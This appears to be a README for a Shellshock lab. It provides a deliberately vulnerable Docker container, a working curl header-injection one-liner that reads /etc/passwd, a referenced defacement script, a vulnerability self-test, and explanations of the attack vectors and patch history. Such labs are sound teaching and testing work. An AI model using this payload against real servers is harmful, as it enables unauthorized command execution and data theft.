 ![Logo](/shellshock.png)
# Shellshock exploit + vulnerable environment 

Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

## Run a vulnerable environment

You will need docker installed to run the environment, go to [docker.com](https://docker.com) and install it if you don't have it yet.

To start the vulnerable environment just run

`docker run --rm -it -p 8080:80 ivanmarchkp/sushi:latest`

Navigate to `localhost:8080` and you shall see a web page.

To build yourself the image locally run the following:

```bash
docker build -f Dockerfile -t myimage/sushi:latest .
docker run --rm -it -p 8080:80 myimage/sushi:latest
```

## Exploit

There are several ways to exploit this flaw

### Exploit it with one liner

An simple example to ```cat /etc/passwd```

    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
    http://localhost:8080/cgi-bin/menu

You can use it to run any command that you want

### Exploit for defacement

This is just a sample code in exploit-deface.sh, just run it against the image

    ./exploit-deface.sh <ip> <port>

For example if you are running it with the command provided above

    ./exploit-deface.sh localhost 8080

Just refresh your browser and you will see

![Deface](/defaced.png)

## Test your system

Just run this bash script in your system and you will see if you are vulnerable or not:

    env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION()=() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"

## Exploitation Vectors

### CGI-based web server

When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request.
Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.

### OpenSSH server

OpenSSH has a "ForceCommand" feature, where a fixed command is executed when the user logs in, instead of just running an unrestricted command shell. The fixed command is executed even if the user specified that another command should be run; in that case the original command is put into the environment variable "SSH_ORIGINAL_COMMAND". When the forced command is run in a Bash shell (if the user's shell is set to Bash), the Bash shell will parse the SSH_ORIGINAL_COMMAND environment variable on start-up, and run the commands embedded in it. The user has used their restricted shell access to gain unrestricted shell access, using the Shellshock bug.

### DHCP clients

Some DHCP clients can also pass commands to Bash; a vulnerable system could be attacked when connecting to an open Wi-Fi network. A DHCP client typically requests and gets an IP address from a DHCP server, but it can also be provided a series of additional options. A malicious DHCP server could provide, in one of these options, a string crafted to execute code on a vulnerable workstation or laptop.

### Qmail server

When using Bash to process email messages (e.g. through .forward or qmail-alias piping), the qmail mail server passes external input through in a way that can exploit a vulnerable version of Bash.

### IBM HMC restricted shell

The bug can be exploited to gain access to Bash from the restricted shell of the IBM Hardware Management Console, a tiny Linux variant for system administrators. IBM released a patch to resolve this.

## Fix

iUntil 24 September 2014, Bash maintainer Chet Ramey provided a patch version bash43-025 of Bash 4.3 addressing CVE-2014-6271, which was already packaged by distribution maintainers. On 24 September, bash43-026 followed, addressing CVE-2014-7169. Then CVE-2014-7186 was discovered. Florian Weimer from Red Hat posted some patch code for this "unofficially" on 25 September, which Ramey incorporated into Bash as bash43-027. These patches provided code only, helpful only for those who know how to compile ("rebuild") a new Bash binary executable file from the patch file and remaining source code files.

The next day, Red Hat officially presented according updates for Red Hat Enterprise Linux, after another day for Fedora 21. Canonical Ltd. presented updates for its Ubuntu Long Term Support versions on Saturday, 27 September; on Sunday, there were updates for SUSE Linux Enterprise. he following Monday and Tuesday at the end of the month, Apple OS X updates appeared.

On 1 October 2014, Michał Zalewski from Google Inc. finally stated that Weimer's code and bash43-027 had fixed not only the first three bugs but even the remaining three that were published after bash43-027, including his own two discoveries.This means that after the earlier distribution updates, no other updates have been required to cover all the six issues.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.
